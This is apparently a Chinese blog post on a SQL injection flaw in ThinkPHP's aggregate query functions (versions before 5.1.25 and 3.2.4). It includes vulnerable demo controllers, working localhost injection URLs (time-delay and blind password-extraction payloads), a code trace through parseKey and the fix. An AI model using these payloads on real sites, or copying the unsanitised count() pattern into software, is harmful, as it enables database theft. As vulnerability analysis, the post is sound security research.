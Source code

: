 ```yaml
---
title: ThinkPHP 聚合查询漏洞
date: 2018-10-19 19:26:05
tags:
	- Thinkphp
	- 漏洞分析
---
```


# 前言

说是漏洞，更恰当一点应该是安全隐患吧，由于是框架洞，总要结合一些开发人员不够专业的代码才能产生漏洞。

这个聚合查询的漏洞主要影响的版本有

 - Thinkphp5 < 5.1.25
 - Thinkphp3 < 3.2.4

影响的函数涉及到所有的聚合查询函数

![](Thinkphp-聚合查询漏洞\1.png)

而且，有一点就是，可以看到在TP5中涉及到SQL查询的地方，几乎都用了预编译

而且由于`PDO::ATTR_EMULATE_PREPARES`设置的原因，导致模拟预处理关闭，从而在预编译阶段无法从数据库中获取数据，从而报错退出。从之前爆出的几个TP5漏洞中就能看到，这样一个很大的弊端就是即使注入存在，也无法从数据库中获取到数据。

但是这个漏洞在预编译阶段没有使用占位符，从而不会在预编译阶段报错，从而可以顺利通过注入**获取到数据**。

# ThinkPHP5 < 5.1.25

## 漏洞复现

这里创建了一个这样的`user`表

![](Thinkphp-聚合查询漏洞\2.png)

数据库配置请自行配置，然后打开`debug`和`trace`模式（方便查看SQL语句

demo样例

```php
public function index()
{
    $count = input('get.count');
    $res = db('user')->count($count);
    var_dump($res);
}
```

当访问

```
http://localhost/tp5.1.25/public/?count=id
```

就能看到返回了数量`3`

![](Thinkphp-聚合查询漏洞\3.png)

当输入

```
http://localhost/tp5.1.25/public/?count=id`),(select sleep(5)),(`username
```

就能看到有明显的五秒的延时

![](Thinkphp-聚合查询漏洞\4.png)

里面改成可以任意的SQL语句，例如通过盲注获取`password`

```
http://localhost/tp5.1.25/public/?count=id`),(if(ascii(substr((select password from user where id=1),1,1))>130,0,sleep(3))),(`username
```

![](Thinkphp-聚合查询漏洞\5.png)

## 漏洞分析

跟进到`count`函数中`thinkphp/library/think/db/Query.php:643`

![](Thinkphp-聚合查询漏洞\6.png)

跟进`$count = $this->aggregate('COUNT', $field);` `thinkphp/library/think/db/Query.php:619`

![](Thinkphp-聚合查询漏洞\7.png)

这里又调用了`$this->connection->aggregate`

注意此时的`$field`字段还是一开始传入的字符，没有任何变化

然后跟进到`thinkphp/library/think/db/Connection.php:1316`中

![](Thinkphp-聚合查询漏洞\8.png)

可以看到这里的经过第一句之后`$field`被组合成了count语句，跟到`parseKey`的函数定义中就能看到具体处理过程

```php
public function parseKey(Query $query, $key, $strict = false)
{
	...
    $key = trim($key);

    if (strpos($key, '->') && false === strpos($key, '(')) {
		...
    } elseif (strpos($key, '.') && !preg_match('/[,\'\"\(\)`\s]/', $key)) {
		...
    }

    if ('*' != $key && ($strict || !preg_match('/[,\'\"\*\(\)`.\s]/', $key))) {
        $key = '`' . $key . '`';
    }
	...

    return $key;
}
```

省略了很多无关的处理函数，可以看到就是简单的通过反引号的字符串相连

```php
$key = '`' . $key . '`';
```

继续回来到`aggregare`中，跟进`$this->value`，这就是真正执行这条SQL语句的地方

`thinkphp/library/think/db/Connection.php:1252`

![](Thinkphp-聚合查询漏洞\9.png)

可以看到通过 `$this->builder->select($query);`将之前传入的参数直接拼接到了sql语句中

最后形成`$sql`为

```mysql
SELECT COUNT(`id`),(select sleep(5)),(`username`) AS tp_count FROM `user` LIMIT 1  
```

![](Thinkphp-聚合查询漏洞\10.png)

在`$query->getBind()`的时候是没有需要绑定的参数的，也就避免了后面预编译阶段的报错

最后`$pdo = $this->query($sql, $bind, $options['master'], true);`执行了SQL语句，产生注入

全局搜索`->aggregate`的调用，发现所有的聚合函数都是调用了这个模块，同理也就产生了SQL注入

![](Thinkphp-聚合查询漏洞\11.png)

# ThinkPHP3 < 3.2.4

## 漏洞复现

数据库配置和TP5中一致，也要打开`debug`和`trace`信息

demo样例

```php
public function index()
{
    $count = I('get.count');
    $m = M('user')->count($count);
    dump($m);
}
```

这里的payload和TP5中的有一点点的不一样，不过也差不多

```
http://localhost/tp3.2.4/?count=id),(select password from user where id=1),(username
```

![](Thinkphp-聚合查询漏洞\12.png)

可以看到直接注入出了数据

## 漏洞分析

没啥好分析的了，和TP5类似，就是少了一个反引号的差别

# 漏洞修复

官方很机智的在`parseKey`中加入了正则校验，不符合这个校验就会抛出异常

![](Thinkphp-聚合查询漏洞\13.png)















